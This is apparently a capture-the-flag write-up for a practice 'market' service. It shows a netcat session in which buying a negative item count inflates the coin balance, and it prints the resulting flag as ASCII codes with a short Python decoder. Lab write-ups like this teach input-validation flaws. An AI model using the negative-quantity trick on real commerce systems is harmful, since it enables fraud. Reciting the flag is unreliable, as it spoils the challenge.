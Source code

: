 # 43 Solution
The `source` file is a 32 bit ELF file. It can be passed through a decompiler to view the source code.

Within the source code, there is a line:

`vuln: doesn't check if the value is negative so we can buy a negative amount`

This is an overflow oversight that we can take advantage of. Open up the connection to the server with the provided netcat command:
```
$ nc mercury.picoctf.net 10337
Welcome to the market!
=====================
You have 40 coins
	Item		Price	Count
(0) Quiet Quiches	10	12
(1) Average Apple	15	8
(2) Fruitful Flag	100	1
(3) Sell an Item
(4) Exit
Choose an option:
1
How many do you want to buy?
-10
You have 190 coins
	Item		Price	Count
(0) Quiet Quiches	10	12
(1) Average Apple	15	18
(2) Fruitful Flag	100	1
(3) Sell an Item
(4) Exit
Choose an option:
2
How many do you want to buy?
1
Flag is:  [112 105 99 111 67 84 70 123 98 52 100 95 98 114 111 103 114 97 109 109 101 114 95 51 100 97 51 52 97 56 102 125]
```

The flag is provided as a sequence of ASCII characters, which can be converted to a string with a Python script.

```
nums = # List of nums here
flag = ""
for num in nums:
    flag += chr(int(num))
print(flag)
```